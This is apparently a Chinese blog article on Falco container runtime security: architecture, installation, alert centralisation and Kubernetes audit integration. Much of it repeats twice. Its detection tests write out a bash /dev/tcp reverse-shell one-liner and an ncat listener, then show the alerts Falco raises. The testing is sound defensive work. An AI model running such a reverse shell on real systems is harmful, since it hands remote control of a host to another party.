



[TOC]

## 1. 为什么需要 Falco？

云计算进行的如火如荼，容器化的部署越来越普遍，同时 Serverless 的兴起也更是让容器更加贴近业务场景，各大公有云厂商都提供了公有云的容器服务，面对着的用户也是更加多样化，由于容器的工作模式是共享宿主机内核，难免会遭遇到各种容器安全的问题，比如 Fork 炸弹会一直耗尽主机的进程资源、容器逃逸获取到主机各种资源等都可能带来安全隐患，业内也有诸如 `gVisor` 和 `Kata Container` 等更加安全的容器技术演进。除了对于容器在主机上活动的隔离之外，还是有相当多的场景下需要对于容器中的进程敏感的行为进行监控告警。

Falco 就是为云原生容器安全而生，可以通过灵活的规则引擎来描述任何类型的主机或者容器的行为和活动，在触发策略规则后可以实时发出警报告警，同时支持将告警集成到各种工作流中；同时 Falco 可利用最新的检测规则针对恶意活动和 CVE 漏洞发出警报，而且规则可以实现动态更新和开箱即用。

## 2. Falco 是什么？

Falco 是云原生的容器运行时（Runtime）安全项目，主要有 Sysdig 为主开发，为 CNCF 项目，[近日 Sysdig 宣布将底层的内核模块、eBPF探针和库贡献给 CNCF](https://mp.weixin.qq.com/s/XDX3GNfeMy3KYor11fSFfQ?st=CCB46A928C5389B8E03AB77D46F037C35E1F5358C32D5E2B06184F361FB9A81DDD3801F1BC2FD2C67434DBA069E2A7B860AA00A2FB1444182E51D27F6088906CF32480D1D6761E3ACA61183B6DB9DB9EE4BECF097035CA22B393C24BA73A4642288978FCD27F505B0A435DADA2AB4C81C0E282C72017165F69021C86C433B7E2BA70F74B797C80A2A8474E93715260905C56983DBAC07424BBA9D88E11D8CC47&vid=1688850059323178&cst=5E650BAECD8E52AF128BC14831A97808187131AFDEF00D60DA126BAC353DC46B0F6E522B1212EA6589AFCCCFCDD3FFF3&deviceid=cf36ee20-beff-4bbf-a7d5-612e53e9a40e&version=3.0.40.2346&platform=mac)，Falco 项目仓库及依赖全部纳入 CNCF 进行管理，项目的代码仓库位于 [falcosecurity 项目](falcosecurity)。

Falco 可以轻松使用内核事件，并使用 Kubernetes 和其他云本机中的信息补充和丰富事件。 Falco 具有一组专门为 Kubernetes，Linux和云原生构建的安全规则。如果系统中违反了规则，Falco 将发送警报，通知到用户。

Falco 的功能示意图如下：


事件源主要包括了以下 3 种：

* Falco Drivers： Falco 的内置驱动主要有3种类型的驱动 Kernel Module、eBPF Probe和用户空间检测。当前用户空间检测已经具备了整体框架，但是目前还没有官方的支持 Driver（v0.24.0 版本开始支持）。其中 Kernel Module 和 eBPF Probe 主要是采集系统的系统调用（syscall），eBPF Probe 是后续作为 Kernel Module 替代方案存在的，性能高效且能够提供更好的安全性（避免内核Bug），但是对于内核版本有一定的要求，一般建议 4.1x 以后。
* Kubernetes 审计事件：对接 k8s 系统中 kube-apiserver 产生的审计事件，规则在 falco [k8s_audit_rules.yaml](https://github.com/falcosecurity/falco/blob/master/rules/k8s_audit_rules.yaml) 中定义，该事件源需要修改  kube-apiserver 中对于 audit 日志的保存方式，需要调整成基于 webhook 的方式，将审计日志发送到 Falco 内置的服务端口上。
* 丢弃系统调用事件：Falco 可以智能检测系统调用丢弃的事件（ v0.15.0以后的版本），可以基于规则进行告警。

## 3. Falco 实现了哪些功能？

### 3.1 Falco 架构

Falco 项目实现架构如下：


自上而下依次为：

* Falco：为基于规则扫描后的命令行展示，有点类似于 tcpdump，本身可以提供 gRPC 服务，用于前端界面连接和采集；
* Rule Engin：将 Falco 中定义的各种 yaml 规则解析到规则引擎中，并负责过滤和触发事件至 Falco 中；
* libsinsp：对于从 libscap 上报的底层事件进行信息获取、补充并发送至 Rule Engin 进行过滤；
* libscap：该库提供了类似于 libpcap（tcpdump 底层网络获取库）的功能，用于设置采集控制参数、保存文件和操作系统层面状态的搜集；
* kernel
  * Kernel Module：使用的内核模块，采用动态内核模块支持 (DKMS) 来编译和安装内核模块；
  * eBPF Probe：作为 Kernel Module 的替换技术，只在内核较高的系统中才能完全支持，通过设置环境变量 FALCO_BPF_PROBE 进行切换；

另外 Falco 还支持 k8s audit 日志的采集，需要在 k8s kube-apiserver 则通过 webhook 配置支持，支持的字段可以通过 `falco --list k8s_audit` 进行查看。

### 3.2 Falco 规则


### 3.3 Falco 告警集中化展示

在单机 Falco 部署以后，我们更多的场景是将所有部署 Falco 主机的日志或者告警进行集中式管理，`FalcoSideKick` 项目就是为此而生，Falco 项目支持将日志按照 gGPRC/File/STDOUT/SHELL/HTTP 等多种方式进行输出。我们可以通过 HTTP 方式将日志汇总到部署的 FalcoSideKick 服务， FalcoSideKick 服务可以实现更加丰富的告警通道能力，包括 Slack/Altermanager/SMTP 等多种告警通道输出。同时 FalcoSideKick 还支持将数据输出到 FalcoSideKick  UI，用户可以通过界面进行查看。相关的配置在后续章节可以看到详细步骤。

基于 FalcoSideKick 集中式日志搜集架构：


FalcoSideKick  UI 的界面如下：


## 4 Falco 功能测试和验证

### 4.1 Falco 安装

#### 4.1.1 k8s 集群安装

如果是在 k8s 中的安装参见仓库 [charts](https://github.com/falcosecurity/charts)。

#### 4.1.2 单机安装

[下载](https://falco.org/docs/getting-started/download/)及[安装](https://falco.org/docs/getting-started/running/)参见官方网址。由于采用 ebpf 作为底层事件采集，需要安装相关头文件，例如：

```bash
$ apt-get -y install linux-headers-$(uname -r)
# 或者
# yum -y install kernel-devel-$(uname -r)
```

Ubuntu 20.04 最简单的方式使用 Docker 运行，也可以使用本地服务的方式运行；

**Docker 方式运行**

```bash
$ sudo docker pull falcosecurity/falco:latest
$ sudo docker run --rm -i -t \
     --privileged \
     -e FALCO_BPF_PROBE="" \
     -v /var/run/docker.sock:/host/var/run/docker.sock \
     -v /dev:/host/dev \
     -v /proc:/host/proc:ro \
     -v /boot:/host/boot:ro \
     -v /lib/modules:/host/lib/modules:ro \
     -v /usr:/host/usr:ro \
     -v /etc:/host/etc:ro \
     falcosecurity/falco:latest
     
* Skipping download, eBPF probe is already present in /root/.falco/falco_ubuntu-generic_5.4.0-42-generic_46.o
* eBPF probe located in /root/.falco/falco_ubuntu-generic_5.4.0-42-generic_46.o
******************************************************************
** BPF doesn't have JIT enabled, performance might be degraded. **
** Please ensure to run on a kernel with CONFIG_BPF_JIT on.     **
******************************************************************
* Success: eBPF probe symlinked to /root/.falco/falco-bpf.o
2021-03-05T07:05:43+0000: Falco version 0.27.0 (driver version 5c0b863ddade7a45568c0ac97d037422c9efb750)
2021-03-05T07:05:43+0000: Falco initialized with configuration file /etc/falco/falco.yaml
2021-03-05T07:05:43+0000: Loading rules from file /etc/falco/falco_rules.yaml:
2021-03-05T07:05:43+0000: Loading rules from file /etc/falco/falco_rules.local.yaml:
2021-03-05T07:05:43+0000: Loading rules from file /etc/falco/k8s_audit_rules.yaml:
2021-03-05T07:05:43+0000: Starting internal webserver, listening on port 8765
```

通过启动的输出信息我们可以得知 falco 启动的配置文件为 `/etc/falco/falco.yaml`，规则引擎中的规则有 3 个文件:

* falco_rules.yaml：falco 中关于文件、进程和网络等相关的规则定义；
* falco_rules.local.yaml：用于我们本地扩展规则；
* k8s_audit_rules.yaml：k8s 审计日志规则，内部启动内置服务 8765 端口在默认路径 `/k8s_audit`  上接受 k8s 的审计日志并经过规则过滤生成相对应的告警，完整的文件参见[这里](https://github.com/falcosecurity/falco/tree/master/rules)。

### 4.2 Falco 功能测试

#### 4.2.1 Shell 执行验证

在机器 18.161 上安装完成后启动，并通过登录到本机的 Pod 实例中测试：

```bash
# 在另外一个窗口执行 
# docker exec -ti e6a37f5f7c33  /bin/bash -il
# falco 日志中打印以下内容：
11:04:50.016293434: Notice A shell was spawned in a container with an attached terminal (user=root user_loginuid=-1 k8s_df-nginx_dfagent-67h29_cr-dfagent_1361ce52-4664-11eb-9fdb-00163e120ca5_1 (id=e6a37f5f7c33) shell=bash parent=runc cmdline=bash -il terminal=34816 container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx)
```

#### 4.2.2 Shell 反弹验证

在来一台攻击的机器上启动 ncat：

```bash
  $ ncat -l -p 10000
  # 在 shell 反弹成功后可以拿到 Pod 的 shell 权限，界面如下：
  root@xxx:/#
```

在上个样例中我们登录的 Pod 中执行一下命令，那么在上述攻击的机器的命令行中就会得到该 Pod 的 shell 权限：

```bash
root@backend-05:/# bash -i >& /dev/tcp/a.b.c.d/10000 0>&1
```

对于这种行为 falco 可以进行检测和发现：

```bash
11:16:41.458470109: Notice Known system binary sent/received network traffic (user=root user_loginuid=-1 command=bash connection=IPA:58426->IPB:10000 
container_id=e6a37f5f7c33 image=xxx)

11:16:41.458523964: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 pod_name (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=xxx fd.name=IPA:58426->IPB:10000 fd.num=1 fd.type=ipv4 fd.sip=IPA)

11:16:41.458525412: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 podname (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=xxx fd.name=IPA:58426->IPB:10000 fd.num=1 fd.type=ipv4 fd.sip=IPA)
```

### 4.3 Falco 告警集中化配置

修改配置文件  falco.yaml, IP 地址需要根据自己的地址调整：

```yaml
json_output: true
json_include_output_property: true
http_output:
  enabled: true
  url: "http://172.17.0.14:2801/"
```

修改完配置以后重新加载，`kill -1 $(cat /var/run/falco.pid)`

然后启动 falcosidekick 和 falcosidekick-ui。

```bash
$ sudo docker run -d -p 2801:2801 -e WEBUI_URL=http://172.17.0.14:2802 falcosecurity/falcosidekick
$ sudo docker run -d -p 2802:2802 falcosecurity/falcosidekick-ui 

# 界面访问 http://ip:2802/ui
```

### 4.4 k8s audit 日志采集

falco 从 0.13 版本开始支持 k8s audit 日志，启动一个内部内嵌的服务端，用于接受 k8s audit 日志输出，这需要在 k8s 中定义相关的规则将 audit 日志提交至该服务，然后经相关规则定义后，输出可能触发的告警信息。
架构图如下：


主要保证 falco.yaml 中开启了内部嵌入服务，相关配置如下：

```bash
webserver:
   enabled: true
   listen_port: 8765
   k8s_audit_endpoint: /k8s_audit
   ssl_enabled: false
   ssl_certificate: /etc/falco/falco.pem
```

在 k8s 中需要配置对应的 kubeconfig 文件，并在 api-server 中引入：

```
$ cat <<EOF > /etc/kubernetes/audit-webhook-kubeconfig
apiVersion: v1
kind: Config
clusters:
- cluster:
    server: http://<ip_of_falco>:8765/k8s_audit
  name: falco
contexts:
- context:
    cluster: falco
    user: ""
  name: default-context
current-context: default-context
preferences: {}
users: []
EOF
```

在 api-server 启动中添加对应的文件：

```bash
--audit-policy-file=/etc/kubernetes/audit-policy.yaml --audit-webhook-config-file=/etc/kubernetes/audit-webhook-kubeconfig
```

## 总结


## 项目概览

Falco 是云原生的容器运行时（Runtime）安全项目，主要有 Sysdig 为主开发，当前是 CNCF 项目，[近日 Sysdig 宣布将底层的内核模块、eBPF探针和库贡献给 CNCF](https://mp.weixin.qq.com/s/XDX3GNfeMy3KYor11fSFfQ?st=CCB46A928C5389B8E03AB77D46F037C35E1F5358C32D5E2B06184F361FB9A81DDD3801F1BC2FD2C67434DBA069E2A7B860AA00A2FB1444182E51D27F6088906CF32480D1D6761E3ACA61183B6DB9DB9EE4BECF097035CA22B393C24BA73A4642288978FCD27F505B0A435DADA2AB4C81C0E282C72017165F69021C86C433B7E2BA70F74B797C80A2A8474E93715260905C56983DBAC07424BBA9D88E11D8CC47&vid=1688850059323178&cst=5E650BAECD8E52AF128BC14831A97808187131AFDEF00D60DA126BAC353DC46B0F6E522B1212EA6589AFCCCFCDD3FFF3&deviceid=cf36ee20-beff-4bbf-a7d5-612e53e9a40e&version=3.0.40.2346&platform=mac)，Falco 项目仓库及依赖全部纳入 CNCF 进行管理，项目的代码仓库位于 [falcosecurity 项目](falcosecurity)。本次贡献至 CNCF 的底层依赖主要为 libsinsp/libscap/kernel module/ebpf probe 等底层依赖，仓库地址见[这里](https://github.com/falcosecurity/libs)。

Falco 可以轻松使用内核事件，并使用 Kubernetes 和其他云本机中的信息补充和丰富事件。 Falco 具有一组专门为 Kubernetes，Linux和云原生构建的安全规则。如果系统中违反了规则，Falco 将发送警报，通知到用户。

Falco 在功能上基于系统调用，底层实现上主要是 kernel module（内核模块）和 BPF 技术。Falco 的工作方式是查看文件更改、网络活动、进程表和其他数据是否存在可疑行为，然后通过可插拔后端发送警报。通过内核模块或[eBPF](https://en.wikipedia.org/wiki/Berkeley_Packet_Filter) 探测器在主机的系统调用级别检查事件。Falco 包含一组丰富的规则，用户可以编辑或者定制规则以标记特定的异常行为，并为正常的计算机操作创建允许列表。




底层依赖库的贡献前后的架构图如下，图中绿色模块是贡献至 CNCF 的模块。



## 当前架构

Falco 的整体架构图如下：


自上而下依次为：

* Falco：为基于规则扫描后的命令行展示，有点类似于 tcpdump，本身可以提供 gRPC 服务，用于前端界面连接和采集；
* Rule Engin：将 Falco 中定义的各种 yaml 规则解析到规则引擎中，并负责过滤和触发事件至 Falco 中；
* libsinsp：对于从 libscap 上报的底层事件进行信息获取、补充并发送至 Rule Engin 进行过滤；
* libscap：该库提供了类似于 libpcap（tcpdump 底层网络获取库）的功能，用于设置采集控制参数、保存文件和操作系统层面状态的搜集；
* kernel
  * Kernel Module：使用的内核模块，采用动态内核模块支持 (DKMS) 来编译和安装内核模块；
  * eBPF Probe：作为 Kernel Module 的替换技术，只在内核较高的系统中才能完全支持，通过设置环境变量 FALCO_BPF_PROBE 进行切换；

另外 Falco 还支持 k8s audit 日志的采集，需要在 k8s kube-apiserver 则通过 webhook 配置支持，支持的字段可以通过 `falco --list k8s_audit` 进行查看。

## 事件搜集和展示

Falco 事件扩展架构，在 Falco 中事件对外输出支持 gGPRC/File/STDOUT/SHELL/HTTP 等多种方式，通过 HTTP 方式对外导出，结合 FalcoSideKick 可以实现更加丰富的告警通道能力，包括 Slack/Altermanager/SMTP 等多种告警通道输出，同时也提供了 FalcoSideKick  UI 界面进行界面化参看。



基于 FalcoSideKick 集中式日志搜集架构


## 测试

如果是在 k8s 中的安装参见仓库 [charts](https://github.com/falcosecurity/charts)。

### 单机安装

[下载](https://falco.org/docs/getting-started/download/)及[安装](https://falco.org/docs/getting-started/running/)参见官方网址。由于采用 ebpf 作为底层事件采集，需要安装相关头文件，例如：

```bash
$ apt-get -y install linux-headers-$(uname -r)
# 或者
# yum -y install kernel-devel-$(uname -r)
```

Ubuntu 20.04 最简单的方式使用 Docker 运行，也可以使用本地服务的方式运行；

**Docker 方式运行**

```bash
$ sudo docker pull falcosecurity/falco:latest
$ sudo docker run --rm -i -t \
     --privileged \
     -e FALCO_BPF_PROBE="" \
     -v /var/run/docker.sock:/host/var/run/docker.sock \
     -v /dev:/host/dev \
     -v /proc:/host/proc:ro \
     -v /boot:/host/boot:ro \
     -v /lib/modules:/host/lib/modules:ro \
     -v /usr:/host/usr:ro \
     -v /etc:/host/etc:ro \
     falcosecurity/falco:latest
     
* Skipping download, eBPF probe is already present in /root/.falco/falco_ubuntu-generic_5.4.0-42-generic_46.o
* eBPF probe located in /root/.falco/falco_ubuntu-generic_5.4.0-42-generic_46.o
******************************************************************
** BPF doesn't have JIT enabled, performance might be degraded. **
** Please ensure to run on a kernel with CONFIG_BPF_JIT on.     **
******************************************************************
* Success: eBPF probe symlinked to /root/.falco/falco-bpf.o
2021-03-05T07:05:43+0000: Falco version 0.27.0 (driver version 5c0b863ddade7a45568c0ac97d037422c9efb750)
2021-03-05T07:05:43+0000: Falco initialized with configuration file /etc/falco/falco.yaml
2021-03-05T07:05:43+0000: Loading rules from file /etc/falco/falco_rules.yaml:
2021-03-05T07:05:43+0000: Loading rules from file /etc/falco/falco_rules.local.yaml:
2021-03-05T07:05:43+0000: Loading rules from file /etc/falco/k8s_audit_rules.yaml:
2021-03-05T07:05:43+0000: Starting internal webserver, listening on port 8765
```
通过启动的输出信息我们可以得知 falco 启动的配置文件为 `/etc/falco/falco.yaml`，规则引擎中的规则有 3 个文件:

* falco_rules.yaml：falco 中关于文件、进程和网络等相关的规则定义；
* falco_rules.local.yaml：用于我们本地扩展规则；
* k8s_audit_rules.yaml：k8s 审计日志规则，内部启动内置服务 8765 端口在默认路径 `/k8s_audit`  上接受 k8s 的审计日志并经过规则过滤生成相对应的告警，完整的文件参见[这里](https://github.com/falcosecurity/falco/tree/master/rules)。

> 运行以后，发现腾讯云报错： 
>
> ```bash
> 2021-03-05T06:50:49.559041698+0000: Error File below / or /root opened for writing (user=root user_loginuid=0 command=barad_agent                                  parent=barad_agent file=/WTEST.TMP program=barad_agent container_id=host image=<NA>)
> ```
>
> 查询该 agent 为腾讯云监控的组件，可以运行一下脚本卸载
>
> ```bash
> $ sudo /usr/local/qcloud/stargate/admin/uninstall.sh
> $ sudo /usr/local/qcloud/YunJing/uninst.sh
> #$ sudo /usr/local/qcloud/monitor/barad/admin/uninstall.sh
> ```
>
> 

**本机安装**

```bash
$ curl -s https://falco.org/repo/falcosecurity-3672BA8F.asc | apt-key add -
$ echo "deb https://dl.bintray.com/falcosecurity/deb stable main" | tee -a /etc/apt/sources.list.d/falcosecurity.list
$ apt-get update -y

$ sudo apt-get -y install linux-headers-$(uname -r)
$ sudo apt-get install -y falco

# 卸载命令如下
$ sudo apt-get remove falco
```

启动

```bash
# service falco start
# journalctl -fu falco
-- Logs begin at Thu 2020-11-12 15:50:22 CST. --
Mar 05 14:25:32 VM-0-14-ubuntu falco[2925949]: Falco initialized with configuration file /etc/falco/falco.yaml
Mar 05 14:25:32 VM-0-14-ubuntu falco[2925949]: Fri Mar  5 14:25:32 2021: Falco initialized with configuration file /etc/falco/falco.yaml
Mar 05 14:25:32 VM-0-14-ubuntu falco[2925949]: Loading rules from file /etc/falco/falco_rules.yaml:
Mar 05 14:25:32 VM-0-14-ubuntu falco[2925949]: Fri Mar  5 14:25:32 2021: Loading rules from file /etc/falco/falco_rules.yaml:
Mar 05 14:25:32 VM-0-14-ubuntu falco[2925949]: Loading rules from file /etc/falco/falco_rules.local.yaml:
Mar 05 14:25:32 VM-0-14-ubuntu falco[2925949]: Fri Mar  5 14:25:32 2021: Loading rules from file /etc/falco/falco_rules.local.yaml:
Mar 05 14:25:32 VM-0-14-ubuntu falco[2925949]: Loading rules from file /etc/falco/k8s_audit_rules.yaml:
Mar 05 14:25:32 VM-0-14-ubuntu falco[2925949]: Fri Mar  5 14:25:32 2021: Loading rules from file /etc/falco/k8s_audit_rules.yaml:
Mar 05 14:25:33 VM-0-14-ubuntu systemd[1]: Started LSB: Falco syscall activity monitoring agent.
Mar 05 14:25:33 VM-0-14-ubuntu falco[2925950]: Starting internal webserver, listening on port 87
```

### Shell 启动检测

在机器 18.161 上安装完成后启动，并通过登录到本机的 Pod 实例中测试：

```bash
$sudo falco
Mon Mar  1 11:03:12 2021: Falco version 0.27.0 (driver version 5c0b863ddade7a45568c0ac97d037422c9efb750)
Mon Mar  1 11:03:12 2021: Falco initialized with configuration file /etc/falco/falco.yaml
Mon Mar  1 11:03:12 2021: Loading rules from file /etc/falco/falco_rules.yaml:
Mon Mar  1 11:03:12 2021: Loading rules from file /etc/falco/falco_rules.local.yaml:
Mon Mar  1 11:03:12 2021: Loading rules from file /etc/falco/k8s_audit_rules.yaml:
Mon Mar  1 11:03:13 2021: Starting internal webserver, listening on port 8765

# 在另外一个窗口执行 
# docker exec -ti e6a37f5f7c33  /bin/bash -il
# falco 日志中打印以下内容：
11:04:50.016293434: Notice A shell was spawned in a container with an attached terminal (user=root user_loginuid=-1 k8s_df-nginx_dfagent-67h29_cr-dfagent_1361ce52-4664-11eb-9fdb-00163e120ca5_1 (id=e6a37f5f7c33) shell=bash parent=runc cmdline=bash -il terminal=34816 container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx)


$sudo docker exec -ti e6a37f5f7c33  /bin/bash -il
```


### Shell 反弹测试

在另外一台机器 172.16.132.147 上启动

```bash
  $ ncat -l -p 10000
  # 在 shell 反弹成功后可以拿到 Pod 的 shell 权限，界面如下：
  root@backend-05:/#
```


在上个样例中我们登录的 Pod 中执行一下命令，那么在 147 机器的命令行中就会得到该 Pod 的 shell 权限：

```bash
root@backend-05:/# bash -i >& /dev/tcp/172.16.132.147/10000 0>&1
```

对于这种行为 falco 可以进行检测和发现：

```bash
11:16:41.458470109: Notice Known system binary sent/received network traffic (user=root user_loginuid=-1 command=bash connection=172.16.18.161:58426->172.16.132.147:10000 
container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx)

11:16:41.458523964: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s_df-nginx_dfagent-67h29_cr-dfagent_1361ce52-4664-11eb-9fdb-00163e120ca5_1 (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx fd.name=172.16.18.161:58426->172.16.132.147:10000 fd.num=1 fd.type=ipv4 fd.sip=172.16.132.147)

11:16:41.458525412: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s_df-nginx_dfagent-67h29_cr-dfagent_1361ce52-4664-11eb-9fdb-00163e120ca5_1 (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=registry.cn-hangzhou.aliyuncs.com/test-cw/df-nginx fd.name=172.16.18.161:58426->172.16.132.147:10000 fd.num=1 fd.type=ipv4 fd.sip=172.16.132.147)
```

## 集中收集和界面展示

修改配置文件  falco.yaml, IP 地址需要根据自己的地址调整：

```yaml
json_output: true
json_include_output_property: true
http_output:
  enabled: true
  url: "http://172.17.0.14:2801/"
```

修改完配置以后重新加载，`kill -1 $(cat /var/run/falco.pid)`

然后启动 falcosidekick 和 falcosidekick-ui。

```bash
$ sudo docker run -d -p 2801:2801 -e WEBUI_URL=http://172.17.0.14:2802 falcosecurity/falcosidekick
$ sudo docker run -d -p 2802:2802 falcosecurity/falcosidekick-ui 

# 界面访问 http://ip:2802/ui
```

界面效果如下：


### 集成 k8s audit 日志

falco 从 0.13 版本开始支持 k8s audit 日志，启动一个内部内嵌的服务端，用于接受 k8s audit 日志输出，这需要在 k8s 中定义相关的规则将 audit 日志提交至该服务，然后经相关规则定义后，输出可能触发的告警信息。
架构图如下：


主要保证 falco.yaml 中开启了内部嵌入服务，相关配置如下：

```bash
webserver:
   enabled: true
   listen_port: 8765
   k8s_audit_endpoint: /k8s_audit
   ssl_enabled: false
   ssl_certificate: /etc/falco/falco.pem
```
在 k8s 中需要配置对应的 kubeconfig 文件，并在 api-server 中引入：

```
$ cat <<EOF > /etc/kubernetes/audit-webhook-kubeconfig
apiVersion: v1
kind: Config
clusters:
- cluster:
    server: http://<ip_of_falco>:8765/k8s_audit
  name: falco
contexts:
- context:
    cluster: falco
    user: ""
  name: default-context
current-context: default-context
preferences: {}
users: []
EOF
```

在 api-server 启动中添加对应的文件：

```bash
--audit-policy-file=/etc/kubernetes/audit-policy.yaml --audit-webhook-config-file=/etc/kubernetes/audit-webhook-kubeconfig
```


## 未来的发展


## 参考资料

* [Sysdig将Falco的内核模块、eBPF探针和库贡献给CNCF](https://mp.weixin.qq.com/s/XDX3GNfeMy3KYor11fSFfQ?st=CCB46A928C5389B8E03AB77D46F037C35E1F5358C32D5E2B06184F361FB9A81DDD3801F1BC2FD2C67434DBA069E2A7B860AA00A2FB1444182E51D27F6088906CF32480D1D6761E3ACA61183B6DB9DB9EE4BECF097035CA22B393C24BA73A4642288978FCD27F505B0A435DADA2AB4C81C0E282C72017165F69021C86C433B7E2BA70F74B797C80A2A8474E93715260905C56983DBAC07424BBA9D88E11D8CC47&vid=1688850059323178&cst=5E650BAECD8E52AF128BC14831A97808187131AFDEF00D60DA126BAC353DC46B0F6E522B1212EA6589AFCCCFCDD3FFF3&deviceid=cf36ee20-beff-4bbf-a7d5-612e53e9a40e&version=3.0.40.2346&platform=mac)
* [探索Sysdig Falco：容器环境下的异常行为检测工具](https://mp.weixin.qq.com/s/BAaOREFajQKk3y4MHDgmuA)
* [使用 Falco 和 Kubernetes 设置运行时容器安全监控](https://developer.ibm.com/zh/technologies/containers/tutorials/installing-and-using-sysdig-falco/)
* [云原生运行时安全FALCO入门](https://davidlovezoe.club/wordpress/archives/831)
* [Falco 0.13.0 Released, Kubernetes Audit Event Support](https://sysdig.com/blog/falco-0-13-released-kubernetes-audit-support/)
* [Auditing with Falco](https://v1-16.docs.kubernetes.io/docs/tasks/debug-application-cluster/falco/)
* [云原生之容器安全实践-美团](https://tech.meituan.com/2020/03/12/cloud-native-security.html)
